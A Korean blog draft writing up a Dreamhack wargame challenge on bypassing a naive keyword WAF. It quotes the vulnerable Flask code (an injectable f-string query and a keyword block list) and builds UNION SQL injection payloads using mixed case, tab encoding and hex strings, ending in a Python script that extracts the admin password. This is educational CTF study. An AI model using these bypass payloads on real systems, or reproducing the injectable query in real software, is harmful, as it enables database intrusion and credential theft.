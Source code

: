```yaml
---
layout: post
published : false  # 글 비공개 설정
title: "[드림핵][Lv.1] sql injection bypass WAF 문제 풀이"
date:   2025-07-15 13:00:00 +0900
categories: [Security]
tags: [wargame, web, union-sqli, bypass]
---
```


## 1. 개요 (Overview)

- **플랫폼 (Platform)**: 드림핵
- **문제 이름 (Challenge)**: sql injection bypass WAF
- **분야 (Category)**: 웹해킹
- **문제 링크 (URL)**: [드림핵 워게임](https://dreamhack.io/wargame/challenges/415)



## 2. 문제 분석 (Problem Analysis)

```python
# 예시: app.py
keywords = ['union', 'select', 'from', 'and', 'or', 'admin', ' ', '*', '/']
def check_WAF(data):
    for keyword in keywords:
        if keyword in data: # <- 이 부분을 주목!
            return True
    return False

@app.route('/', methods=['POST', 'GET'])

def index():
	uid = request.args.get('uid')
	if uid:
		if check_WAF(uid):
			return 'your request has been blocked by WAF.'
		cur = mysql.connection.cursor()
		cur.execute(f"SELECT * FROM user WHERE uid='{uid}';")
		result = cur.fetchone()
		if result:
			return template.format(uid=uid, result=result[1])
		else:
			return template.format(uid=uid, result='')
	else:
		return template
```

---

### 1. 문제 해설
- 이 문제의 핵심은 check_WAF() 함수를 우회하는 방법을 아느냐 모르냐 이다.
- 위에 check_WAF()함수에서 두 가지 허점이 있다.
    
#### 1) 대소문자를 구분한다.
- keywords 리스트의 모든 단어는 소문자이다.
- 하지만 파이서 in 연산자는 대소문자를 구분하므로, 'union'은 필터링이 되지만, 'UNION'이나 'uNiOn' 등은 필터링되지 않는다.
- 만약 제대로 대소문자를 구분 없이 필터링 한다면, lower() 또는 upper() 메서드를 사용하여 문자열을 소문자 또는 대문자로 변환 한 후 검사를 해써야 했다.

#### 2) 공백 문자(스페이스)만 필터링 한다.
- 리스트에 ' '(스페이스)만 포함되어 있다. 
- 하지만 SQL에서는 스페이스 외에도 다양한 공백 문자를 인식하는 방법이 있다.
- 대표적으로 탭(\t), 줄바꿈(\n) 등도 공백으로 처리되며, URL에서 탭은 %09로 인코딩 할 수 있다.

#### 3) format(uid=uid, result=result[1]) 
- 이 부분이 중요하다.
- 데이터베이스의 uid 값과 일치하면, result 즉, 두 번째 컬럼만 화면에 보여준다는 의미이다.
- 그래서 우리는 admin의 비밀번호를 알기 위해서는 UNION SELECT 구문을 사용해서 원래는 세번째에 있던 upw 컬럼을 두 번째 자리에 끼워 넣어야 한다.
- 즉, 결론적으로 저 코드 한줄로 인해 공격자가 화면에 출력되는 컬럼의 위치를 파악하고, 그 에 맞춰 UNION SELECT 페이로드를 정교하게 구성하도록 만드는 핵심적인 제약 조건인 셈이다.

--	

### 2. 공격 페이로드 구성
- 위에 허점들을 이용해서 페이로드를 만들어 보자

``` sql
'UNION SELECT 1, upw, 3 FROM user WHERE uid='admin'#
```

- 위는 기본 SQLi 페이로드 구성이다. 이걸 우회하는 버전으로 바꿔야 한다.

#### 2-1) 먼저 키워드를 대문자 또는 대소문자를 섞어서 변경해야 한다.
- union -> uNiOn
- select -> sElEcT
	
#### 2-2) 공백 우회
- 모든 공백을 URL 인코딩된 탭(%09) 또는 공백(%20)으로 변경

#### 2-3) admin 문자열 우회
- admin 문자열 역시 16진수(Hex) 값을 문자열로 인식하기 때문에 16진 값으로 변환
	- admin -> 16진수 값(`0x61646d696e`)
	- 또는 Admin 입력

#### 2-4) 최종 페이로드 조합
~~~ sql

'%09uNiOn%09sElEcT%091,upw,3%09fRoM%09user%09wHeRe%09uid=0x61646d696e#

~~~

- 하지만 이렇게 입력 폼에 입력을 하게 되면 에러 메시지와 플러그 값을 얻을 수 없다...
- 별 짓을 다 해도 방법이 없어서 고민하다가 제미나이에게 물어보고 답의 힌트를 얻을 수 있었다.


---

### 3. 브라우저 URL 자동 처리(인코딩) 방식과 Python 코드가 서버에 직접 요청을 보내는 방식 차이

#### 3-1) 브라우저의 자동 URL 인코딩
- 웹 브라우저의 주소창이나 웹사이트의 입력 폼에 페이로드를 직접 입력하면, 브라우저는 이를 서버가 이해 할 수 있는 형태로 **"자동으로 변환(URL 인코딩)"** 한다.
- 이 과정에서 몇 가지 문제가 발생 할 수 있다.


##### (1). 예측 불가능한 변환 
- 브라우저는 안전한 전송을 위해 특정 문자열을 %와 16진수 코드로 바꾼다.
- 예를 들어, 큰 따옴표(")는 %22로, 샵(#)은 %23으로 변환하다.
- 문제는 이변환 규칙이 브라우저 종류나 버전에 따라 미묘하게 다를 수 있고, 의도하지 않는 방식으로 문자를 바꿔버릴 수 있다는 점이다.


##### (2). WAF에 탐지될 가능성 증가
- 브라우저가 변환한 최종 URL이 의도했던 우회 패턴과 달라져서, 서버의 WAF(웹 방화벽)에 탐지될 수 있다.

- 즉, 브라우저는 중간 단계를 거치면서 정교하게 만든 페이로드에 미세한 변형이 생겼고, 그 겨로가 서버에서는 공격이 실패했던 것이다.

#### 3-2) Python 스크립트의 직접 전송
- 반면, requests 라이브러리를 사용한 Python 코드는 정교하게 만든 페이로드를 **"어떠한 변형도 없이 그대로"** 서버에 전송한다.

```python
#성공한 코드
param = f"'%09Union%09Select%09null,upw,null%09From%09user%09where%09uid=\"Admin\"%23"
response = get(f"{url}/?uid={param}")
```

##### (1). 완벽한 통제
- 위 코드에서 param 변수에 담긴 문자열은 브라우저의 자동 변환 같은 중간 과정 없이, HTTP 요청의 일부가 되어 서버로 직접 날아간다.
- %09(탭), "(큰따옴표), %23(#) 등 모든 문자가 원래 의도한 위체에 정확히 전달된다.


##### (2). WAF 우회 성공
- 이 처럼 정교하게 제어된 페이로는 서버의 WAF가 예상하고 패턴을 벗어나 필터링을 필 할 수 있었고, SQL Injection 공격이 성공하여 플래그 값을 얻을 수 있었다.

---

### 4. Python 코드

```python
from requests import get

url = "문제의 URL"

param = f"'%09Union%09Select%09null,upw,null%09From%09user%09where%09uid=\"Admin\"%23"
response = get(f"{url}/?uid={param}")
print(response.text)
```

---
